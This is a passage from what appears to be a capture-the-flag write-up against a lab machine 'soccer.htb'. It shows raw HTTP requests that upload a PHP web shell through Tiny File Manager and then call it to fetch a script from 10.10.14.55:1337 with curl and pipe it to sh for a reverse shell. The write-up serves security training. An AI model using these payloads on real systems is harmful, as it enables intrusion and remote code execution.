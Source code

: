 ```sh
===============================================================
2023/04/24 23:12:20 Finished
===============================================================
```

---

## Exploit CVE for Vulnerable Version

---

### Exploit Website get Shell

---

#### UnRestricted File Upload 

```sh
POST /tiny/tinyfilemanager.php?p=tiny/uploads HTTP/1.1
Host: soccer.htb
Accept: application/json
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryb2kFsZoCHAQcAN7v
...
Connection: close

------WebKitFormBoundaryb2kFsZoCHAQcAN7v
Content-Disposition: form-data; name="p"

tiny/uploads
------WebKitFormBoundaryb2kFsZoCHAQcAN7v
Content-Disposition: form-data; name="fullpath"

pwn_the7ir.php
------WebKitFormBoundaryb2kFsZoCHAQcAN7v
Content-Disposition: form-data; name="file"; filename="pwn_123.php"
Content-Type: text/plain

<?php system($_REQUEST['cmd']); ?>
------WebKitFormBoundaryb2kFsZoCHAQcAN7v--
```

---

#### Call RCE

```sh
GET /tiny/uploads/pwn_the7ir.php?cmd=curl+userad+10.10.14.55%3a1337/reshell_python.sh|sh HTTP/1.1
Host: soccer.htb
...
```

Get shell www-data , but not read user.txt
Find a way

---